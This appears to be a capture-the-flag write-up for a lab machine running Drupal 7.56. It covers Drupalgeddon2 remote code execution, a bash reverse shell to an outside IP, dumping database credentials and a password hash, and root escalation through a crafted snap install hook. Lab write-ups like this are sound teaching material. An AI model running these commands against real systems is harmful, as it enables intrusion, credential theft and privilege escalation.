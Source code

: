 1, port scan and web-content enumeration
22/tcp ssh
80/tcp http

By fuzzing the web-content, we can get many interesting urls.

![[Pasted image 20240818095444.png]]

`/robots.txt  /web.config /xmlrpc.php /index.php'
These urls would be useful for us.

2,check web pages and resources.
(*1*), `/robots.txt
```
Let's check /LICENSE.txt and find some versions.(Very sad, I cannot find anything useful.)

/install.php we can get a hint: # Drupal already installed
So just check the service or versions.

/CHANGELOG.txt #Drupal 7.56, 2017-06-21
This further confirms our previous findings.

Then we can find the exploits :
#CVE-2018-7600 | Drupal 8.5.x < 8.5.1 / 8.4.x < 8.4.6 / 8.x < 8.3.9 / 7.x? < 7.58 / < 6.x? - 'Drupalgeddon2' RCE (SA-CORE-2018-002)

https://github.com/dreadlocked/Drupalgeddon2.git

This is a RCE vulnerablity.So let's try to use it.

```

3,get the user shell
We just need to run the exploit script, then we can get the apache shell (www-data)

Then we need to switch to the local user :`brucetherealadmin
```
#/etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash

```

Before we enumerate the machine, we need to make a stable shell for us.
`curl -G --data-urlencode "c=bash -i >& /dev/tcp/10.10.14.65/443 0>&1" 'http://10.10.10.233/shell.php'`

Thus, let's enumerate the configurations and databases.

Then we can find a useful file `/var/www/html/sites/default/settings.php`
and we find the database password 
```
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);

```

Let's try it to shell as user but very sadly, we cannot login directly.

Come to enumerate the database 
`mysql -u drupaluser -p `
In this place, Because my shell is a not in a PTY, I’ll have to run DB commands from the command line. Drupal creates a bunch of tables:

`mysql -e 'show tables;' -u drupaluser -p'CQHEy@9M*m23gBVj' drupal`

`mysql -e 'select * from users;' -u drupaluser -p'CQHEy@9M*m23gBVj' drupal`

Finally, we get a credit
`brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt`

Then crack the password
	we can get `brucetherealadmin:booboo`

Then just ssh to get the user shell.

4, get the root shell
Firstly ,we can check `sudo -l`
```
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

To be honest, we can just find something useful from GTFOBins.

```
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

It runs commands using a specially crafted Snap package. Generate it with fpm and upload it to the target.

COMMAND=id
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
sudo snap install xxxx_1.0_all.snap --dangerous --devmode
```

```
The next step was to create the snap and download it onto the target box and install it. However, I ran into problems so I watched IppSec’s video >>HERE<< to guide me through it. First, on the target box, I copied /usr/bin/bash to /home/brucetherealadmin/bash.
```

`[brucetherealadmin@armageddon ~]$ cp /usr/bin/bash ~/bash`

Next, I modified the payload as shown below and executed it on my local system.
```
COMMAND="chown root:root /home/brucetherealadmin/bash; chmod 4755 /home/brucetherealadmin/bash"
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```


Finally, I downloaded the snap using cURL and installed it.

As you can see from the screenshot below, the snap was installed successfully. However, more importantly, it ran the command to change the ownership and permissions of the bash file. The file was now owned by root and had setuid set.
![[Pasted image 20240818111718.png]]

`./bash -p`

Then we can shell as root.